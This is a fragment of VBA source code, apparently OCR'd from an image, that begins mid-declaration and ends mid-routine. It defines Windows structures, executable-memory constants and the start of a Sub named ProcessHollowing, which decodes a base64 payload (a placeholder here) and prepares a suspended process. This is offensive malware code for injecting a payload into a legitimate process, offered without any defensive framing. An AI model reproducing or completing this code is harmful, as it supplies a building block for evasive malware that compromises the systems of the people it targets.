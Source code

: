 ```
    hStdOutput As Long
    hStdError As Long
End Type

Private Type PROCESS_INFORMATION
    hProcess As LongPtr
    hThread As LongPtr
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type CONTEXT
    ContextFlags As Long
    Dr0 As LongPtr
    Dr1 As LongPtr
    Dr2 As LongPtr
    Dr3 As LongPtr
    Dr6 As LongPtr
    Dr7 As LongPtr
    Rax As LongPtr
    Rcx As LongPtr
    Rdx As LongPtr
    Rbx As LongPtr
    Rsp As LongPtr
    Rbp As LongPtr
    Rsi As LongPtr
    Rdi As LongPtr
    R8 As LongPtr
    R9 As LongPtr
    R10 As LongPtr
    R11 As LongPtr
    R12 As LongPtr
    R13 As LongPtr
    R14 As LongPtr
    R15 As LongPtr
    Rip As LongPtr
    SegCs As Long
    SegDs As Long
    SegEs As Long
    SegFs As Long
    SegGs As Long
    SegSs As Long
    EFlags As Long
End Type

Const CREATE_SUSPENDED = &H4
Const CONTEXT_CONTROL = &H10001
Const MEM_COMMIT = &H1000
Const MEM_RESERVE = &H2000
Const PAGE_EXECUTE_READWRITE = &H40

Sub ProcessHollowing()
    Dim payload As String
    payload = "BASE64_ENCODED_PAYLOAD_HERE"
    
    Dim payloadBytes() As Byte
    payloadBytes = Base64Decode(payload)
    
    Dim si As STARTUPINFO
    Dim pi As PROCESS_INFORMATION
    
    si.cb = LenB(si)
    
```